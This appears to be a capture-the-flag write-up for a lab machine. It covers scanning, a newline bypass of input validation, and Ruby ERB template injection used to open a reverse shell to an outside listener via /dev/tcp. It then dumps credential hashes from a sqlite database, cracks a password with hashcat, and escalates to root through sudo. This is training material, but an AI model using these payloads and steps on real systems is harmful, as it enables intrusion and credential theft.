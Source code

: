 ### Details: 
IP :  10.129.64.80

NMAP SCAN:  ![image](https://github.com/user-attachments/assets/2bac9034-4a19-4f70-bc82-2bf7e71f86c9)

## Q1 - What version of `OpenSSH` is running?
A: OpenSSH 8.9p1 running on port 22 from nmap scan

## Q2 - What programming language is the web application written in?

Use wappalyzer on website to find programming language
![Pasted image 20240720145652](https://github.com/user-attachments/assets/f29d417b-083a-4581-bf67-9f2d3bee705c)


## Q3 - Which endpoint on the web application allows for user input?
/weighted-grade allows user input
![Pasted image 20240720145738](https://github.com/user-attachments/assets/aafb2ed4-9742-4f9c-abaa-60fa89c4edc9)


## Q4 Which column on the grade-calculator page allows alphanumeric input?
Category only input that allows alphanumeric input

![Pasted image 20240720150024](https://github.com/user-attachments/assets/63b49de7-df3a-4984-9860-298ec030976a)


## Q5 - What is the URL-encoded value of the character you can use to bypass the input validation on the Category column?

### A: %0a
If we URL encode the linefeed value using **%0a** we can bypass the input validation
![Pasted image 20240720150650](https://github.com/user-attachments/assets/5d07ba2b-be6f-4a2a-876f-5cf1456ed2eb)
![Pasted image 20240720151024](https://github.com/user-attachments/assets/d4f3b1cc-b4f6-4f27-8753-d219cb8ec0c0)

We then test a Ruby SSTI (Server Side Template Injection)

We can use this basic injection found on github https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby---basic-injectionsand and test if the input is valid 
![Pasted image 20240720151326](https://github.com/user-attachments/assets/dbca26c4-cf85-4385-8b92-63d747d07654)
![Pasted image 20240720151423](https://github.com/user-attachments/assets/362198c3-fb19-4039-8081-7491eab5a78d)

We can see that when we input the command it gives us the output 49 meaning that it is vulnerable to code execution.

## Q6 What is the name of the templating system in use by this web application?
**Embedded Ruby (ERB)** is the templating system of Ruby. So the fact that this is vulnerable to SSTI means that the templating system is **Embedded Ruby (ERB)**.

# Next Steps

Since the website is vulnerable to SSTI we can use this to our advantage to spawn a reverse shell.

Create simple shell command :
**<%= IO.popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'").readlines() %>**
![image](https://github.com/user-attachments/assets/128f108b-e578-4125-aafd-ecaac9ef878c)


we setup our listener on the other side and hit enter

NC: 

![image](https://github.com/user-attachments/assets/ab0bf7f4-0b06-489e-8dfd-25742080b33e)


check if we have python 3 on the system then we can make a more interactive shell using 
**python3 -c 'import pty; pty.spawn("/bin/bash")'**

now we have a more interactive shell.

![image](https://github.com/user-attachments/assets/275da7e8-f1c9-4686-b5df-3aa05733eabb)


## Q7 Submit User Flag

![image](https://github.com/user-attachments/assets/e2c93d08-779d-40ba-937d-58467cfabb95)

## Q8 Which non-default group is the susan user a part of?

when we enter the command groups we can see that Susan is apart of the Sudo group.

![image](https://github.com/user-attachments/assets/71a7d4d4-fa76-41d0-8a87-b68ded7ca251)

## Q9 What is the full path of the sqlite database containing the susan user's password hash?
after looking around we find the database in:
/home/susan/Migration/pupilpath_credentials.db

using the command - sqlite3 pupilpath_credentials.db "select name, password from users" 

we retrieve the hashes

![image](https://github.com/user-attachments/assets/09153a53-4514-41da-ae7b-c689546e0f6a)

## What is susans user password
we also find looking around that susan has a default password format in an mail folder

![image](https://github.com/user-attachments/assets/bab15dfc-f90d-4af8-8ff1-670f69262d14)


since we know this we can create a custom wordlist and use hashcat to crack it
using the command
hashcat -m 1400 -a 6 susanhash susanwl ?d?d?d?d?d?d?d?d?d -O   

**-m 1400** = SHA256 Hash
**-**a 6** = attack mode hybrid since we are using our own wordlist
**susanhash** = the hash of susans pass
**susanwl** = "susan_nasus" since we know the password format from the email
**?d?d?d?d?d?d?d?d?d** = this represents the 9 digits to brute force
**-O** = optimization
#### We now have the cracked pw
![image](https://github.com/user-attachments/assets/498f5c1a-095a-48ab-9c6d-1df2f61a9358)




we can now use susans password to get to shell as she has sudo access

if we use the command sudo -i we can open a root shell.

this box is now completed
![image](https://github.com/user-attachments/assets/743fbdcb-cee7-4f73-b74b-a84eece8cead)

